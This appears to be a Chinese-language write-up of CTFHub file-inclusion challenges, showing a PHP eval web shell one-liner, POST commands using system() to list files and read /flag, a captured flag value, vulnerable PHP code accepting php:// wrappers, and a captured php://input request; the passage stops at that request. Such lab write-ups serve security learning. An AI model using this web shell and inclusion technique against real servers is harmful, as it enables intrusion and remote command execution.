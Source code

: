 https://www.ctfhub.com/

![image-20221124112022198](https://img.gyxnb.top/img/image-20221124112022198.png)

![image-20221124112029801](https://img.gyxnb.top/img/image-20221124112029801.png)

### 文件包含

包含shell.txt

http://challenge-80af2fa93455888e.sandbox.ctfhub.com:10800/?file=shell.txt

```
<?php @eval($_POST['ctfhub']);?>
```

发起post请求

`ctfhub=system('ls');` 

`ctfhub=system('find / -name flag*');`

`ctfhub=system('cat /flag')`

得到flag:

ctfhub{1ddd090b9002c54d69cf87a0}

### php://input

伪协议，读取文件流

```php
<?php
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 6) === "php://" ) {
        include($_GET["file"]);
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?>
<hr>
i don't have shell, how to get flag? <br>
<a href="phpinfo.php">phpinfo</a>
```

访问http://challenge-39f23084ae74e66d.sandbox.ctfhub.com:10800/?file=phpinfo.php

![image-20221124114612027](https://img.gyxnb.top/img/image-20221124114612027.png)

文件包含开启了。

抓包

```
GET /?file=php://input HTTP/1.1
Host: challenge-39f23084ae74e66d.sandbox.ctfhub.com:10800
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
